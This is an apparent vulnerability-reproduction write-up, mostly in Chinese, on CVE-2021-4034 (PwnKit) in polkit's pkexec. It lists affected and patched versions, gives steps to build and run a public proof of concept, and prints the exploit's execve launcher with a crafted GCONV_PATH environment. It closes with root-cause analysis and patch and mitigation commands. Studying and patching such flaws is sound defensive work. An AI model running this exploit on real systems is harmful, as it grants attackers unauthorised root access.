 # CVE-2021-4034

## Products Affected By CVE-2021-4034
2009年5月至今发布的所有 Polkit 版本
注：Polkit预装在CentOS、Ubuntu、Debian、Redhat、Fedora、Gentoo、Mageia等多个Linux发行版上，所有存在Polkit的Linux系统均受影响。

## Unaffected version
CentOS：
CentOS 6：polkit-0.96-11.el6_10.2
CentOS 7：polkit-0.112-26.el7_9.1
CentOS 8.0：polkit-0.115-13.el8_5.1
CentOS 8.2：polkit-0.115-11.el8_2.2
CentOS 8.4：polkit-0.115-11.el8_4.2

Ubuntu：
Ubuntu 14.04 ESM：policykit-1-0.105-4ubuntu3.14.04.6+esm1
Ubuntu 16.04 ESM：policykit-1-0.105-14.1ubuntu0.5+esm1
Ubuntu 18.04 LTS：policykit-1-0.105-20ubuntu0.18.04.6
Ubuntu 20.04 LTS：policykit-1-0.105-26ubuntu1.2
Ubuntu 21.10：policykit-1-0.105-31ubuntu0.1

Debain：
Debain stretch：policykit-1 0.105-18+deb9u2
Debain buster：policykit-1 0.105-25+deb10u1
Debain bullseye：policykit-1 0.105-31+deb11u1
Debain bookworm,bullseye：policykit-1 0.105-31.1

## Experiment Environment

Kali-Linux-2021.3

## INSTALL & Configuration

```
在https://github.com/berdav/CVE-2021-4034下载PoC文件压缩包
```


## How to trigger vulnerability

```
unzip CVE-2021-4034-main.zip
cd CVE-2021-4034-main
make
./cve-2021-4034
```

## PoCs

```
#include <unistd.h>

int main(int argc, char **argv)
{
	char * const args[] = {
		NULL
	};
	char * const environ[] = {
		"pwnkit.so:.",
		"PATH=GCONV_PATH=.",
		"SHELL=/lol/i/do/not/exists",
		"CHARSET=PWNKIT",
		"GIO_USE_VFS=",
		NULL
	};
	return execve("/usr/bin/pkexec", args, environ);
}
```


### Root Cause

该漏洞是由于pkexec在处理传入参数的逻辑出现问题，导致环境变量被污染，最终交由pkexec代码逻辑执行实现客户机权限提升。

pkexec为suid程序
当argc（命令行参数个数变量）为0时，pkexec会读取argv[1]变量，而由于Linux进程的内存布局中环境变量是紧接着命令行参数的，因此实际上会读取到第一个环境变量。
读取到argv[1]之后，若其不是以/开头的（即不是绝对路径），则pkexec会将其理解为相对路径，继而会在环境变量中查找PATH变量，将其转换为实际路径。
若PATH环境变量包含一个攻击者可控的路径，则pkexec转换后的实际路径将会是这个攻击者可控的路径下的一个子目录，则显然此实际路径也是攻击者可控的。
pkexec会对argv[1]赋值，将其修改为上述得到的实际路径，但是我们知道argv[1]此时实际上指向的是pkexec的第一个环境变量，也就是说，pkexec将自己的第一个环境变量修改为这个实际路径了。

pkexec会在程序运行过程中调用g_printerr函数，这个函数会在运行的时候按需载入GCONV_PATH环境变量指向的路径下的gconv-modules文件中写明的外部动态链接库（so），并运行其中的初始化函数gconv_init。

## Suggestions
目前各Linux发行版官方均已给出安全补丁，建议用户尽快升级至安全版本，或参照官方说明措施进行缓解，CentOS、Ubuntu及Debian用户可参考以下链接进行升级：
https://ubuntu.com/security/CVE-2021-4034
https://access.redhat.com/security/cve/CVE-2021-4034
https://security-tracker.debian.org/tracker/CVE-2021-4034

CentOS、Ubuntu的用户可以使用以下命令升级Polkit到最新版本：
CentOS系列：
yum clean all && yum makecache
yum update polkit -y
验证修复，可通过以下命令查看 Polkit 是否为安全版本：
rpm -qa polkit

Ubuntu系列：
sudo apt-get update
sudo apt-get install policykit-1
验证修复，可通过以下命令查看 Polkit 是否为安全版本：
dpkg -l policykit-1

临时修复建议：

1. 如果系统没有可用的补丁，可以从 pkexec 中删除 SUID 位作为临时缓解措施，输入以下命令：
chmod 0755 /usr/bin/pkexec
2. 如非必要，建议临时删除 pkexec 可执行程序。

## References
[CVE-2021-4034](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2021-4034)
[CVE-2021-4034漏洞利用原理分析](https://baijiahao.baidu.com/s?id=1724340495908640232&wfr=spider&for=pc)
[CVE-2021-4034 Linux Polkit本地权限提升漏洞](https://www.jianshu.com/p/ff42a6f715e8)

